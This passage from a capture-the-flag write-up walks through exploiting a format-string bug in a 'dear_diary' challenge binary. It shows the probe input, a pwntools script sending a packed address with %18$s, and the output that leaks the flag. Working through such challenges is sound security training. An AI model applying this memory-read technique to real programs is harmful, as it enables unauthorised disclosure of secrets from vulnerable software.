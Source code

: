 ```
1. add entry
2. print latest entry
3. quit
> 1
Tell me all your secrets: AAAA%18$x

1. add entry
2. print latest entry
3. quit
> 2
AAAA41414141
```

So that's fantastic, we now know that the 18th item down is going to be our format string, this means we can dereference it using %18$s and the only issue now is getting it to be our flag address, 0x0804a0a0, rather than 'AAAA'. Normally we could just do `python -c "print '<address_in_little_endian>'+'%18$s'"` to properly parse the hex and pass it but due to that damn menu, this obviously won't work. Instead this is where pwntools comes in. Fire up python and do the following:

```Python
from pwn import * # import all pwntools libraries

payload = p32(134520992)+'%18$s' # pack the integer to hex and append %18$s as the payload
p = process('/home/nullp0inter/Downloads/dear_diary') # open the binary locally as a process
p.recv() # read from the local binary
p.sendline('1') # send '1' to the local binary so we select the option to add entry
p.recv() # read more from local binary
p.sendline(payload) # send the payload we crafted to the binary
p.interactive() # pop open an interactive shell for us to intereact with the binary
```

So a quick note about the above, I got that number (134520992) by converting the hex 0x0804a0a0 to an integer online and did things this way due to my own lack of python knowledge, I am certain there is a substantially better way to do this but I couldn't really think of it or find it (I was focused on solving this quickly rather than elegantly). That said, the payload is the address of the flag followed by %18$s which will try to derefence that address and read it as a string. When we run this we get:

```
[+] Starting local process '/home/nullp0inter/Downloads/dear_diary': Done
[*] Switching to interactive mode

1. add entry
2. print latest entry
3. quit
> $ 2
\xa0\xa0\x0MeCTF{FECKING_SUCCESS}


1. add entry
2. print latest entry
3. quit
> $  
```
